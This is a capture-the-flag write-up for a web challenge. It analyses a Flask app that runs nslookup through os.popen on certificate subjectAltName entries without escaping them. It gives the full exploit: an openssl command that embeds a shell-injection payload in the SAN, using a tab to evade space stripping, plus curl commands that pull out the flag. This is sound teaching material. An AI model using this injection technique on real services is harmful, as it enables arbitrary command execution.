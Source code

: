 # [sentry-as-navigation](http://ctf.m0unt41n.ch/challenges/printer-destroyer-format) (`web`, `medium`)

# TL;DR

We get a source for a simple Flask app that tries to resolve
all `subjectAltName` entries of a web certificate provided by
the web server given as input.

The vulnerability is that it internally uses `os.popen()` to run
`nslookup \<string\>` without escaping the `string` in any way.

The exploit is to stand a simple webserver, with a certificate
containing `subjectAltName` that includes a shell injection payload
printing `flag.txt` file, which is then served by the vulnerable
app.

# Analyzing the app

Let's just focus on the vulnerable code:

*   Load certificate for the domain provided in the request

    ```python
    certificate = get_certificate(domain)
    x509 = OpenSSL.crypto.load_certificate(OpenSSL.crypto.FILETYPE_PEM, certificate)
    ```

*   Decode some standard fields into a `result` dict:

    ```python
    result = {
        "subject": [
            {x.decode(): y.decode()} for (x, y) in x509.get_subject().get_components()
        ],
        "issuer": [
            {x.decode(): y.decode()} for (x, y) in x509.get_issuer().get_components()
        ],
        "serialNumber": x509.get_serial_number(),
        "version": x509.get_version(),
        "notBefore": x509.get_notBefore().decode(),
        "notAfter": x509.get_notAfter().decode(),
        "nslookup": {},
    }
    ```

*  Decode the certificate extensions:

    ```python
    extensions = (x509.get_extension(i) for i in range(x509.get_extension_count()))
    extension_data = {e.get_short_name().decode(): str(e) for e in extensions}
    result.update(extension_data)
    ```

*   Extract `subjectAltName` entries, removing the `"DNS:"` prefix. Also remove spaces
as a minimal sanitization:

    ```python
    san_entries = (
        result["subjectAltName"].replace(" ", "").replace("DNS:", "").split(",")
    )
    ```

*   For each `subjectAltName` entry:
    *   Check if it matches a predefined pattern (`^secure.*\.com$`)
    *   Run `nslookup` and store the output in the `result` map

    ```python
    for entry in san_entries:
        match = re.match(r"^secure.*\.com$", entry)
        print(f"{entry}: {match}")
        if match:
            command = f"nslookup {entry}"
            result["nslookup"][entry] = os.popen(command).read().strip()
    ```

# Local exploit

## Create a malicious certificate

We can not add a simple `cat flag.txt` in the payload, because above code
removes spaces from the "domain" name. But, nobody mentioned tabs &#x1F60A;.
So, we'll try `DNS:secure;cat\tflag.txt;.com`.

```bash
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=GB/ST=London/L=London/O=Global Security/OU=R&D Department/CN=example.com" \
    -addext "subjectAltName = DNS:secure;cat\tflag.txt;.com" \
    -keyout cert.key -out cert.crt
```

## Start a Web server using that certificate

Note: you need to do this as root, as this has to bind to port 443.

```
# openssl s_server -key cert.key -cert cert.crt -accept 443 -www
```

## Try it with local Docker container

```bash
$ docker build -t sentry:latest .
$ docker run -p 5000:5000 sentry:latest
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.254.2:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 664-276-320
```

Note that the app exports a debug port (but we don't need it)

## Extract the flag

Write down `$SERVER_IP` to contain public interface of your workstation (running the `openssl s_server` above).

```bash
$ SERVER_IP=192.168.1.10
$ APP_URL=http://127.0.0.1:5000/check
$ curl -s -X POST $APP_URL -d "domain=$SERVER_IP"
(...)
    "notAfter": "20250421163140Z",
    "notBefore": "20240421163140Z",
    "nslookup": {
      "secure;cat\tflag.txt;.com": "shc2024{fake_flag}"
    },
    "serialNumber": 388628575943243043612594917864125328316475023391,
```

Note the flag &#x1F60A; Let's make it a bit more clean

```bash
$ curl -s -X POST $APP_URL -d "domain=$SERVER_IP" | grep shc | sed -r 's/.*(shc2024\{.*\}).*/\1/g'
shc2024{fake_flag}
```

# Remote exploit

Prepare SSL server

*   Start an AWS instance (or an otherwise publicly accessible server)
*   Run above `openssl` commands there
*   Record its `$SERVER_IP`

Start the CTF instance and get a flag from there

```bash
$ APP_URL=https://12345678-1234-1234-1234-123456789abc.ctf.m0unt41n.ch:1337/check
$ curl -s -X POST $APP_URL -d "domain=$SERVER_IP" | grep shc | sed -r 's/.*(shc2024\{.*\}).*/\1/g'
```

# The flag

```
shc2024{SAN_411_th3_th1ngs!!!!!}
```
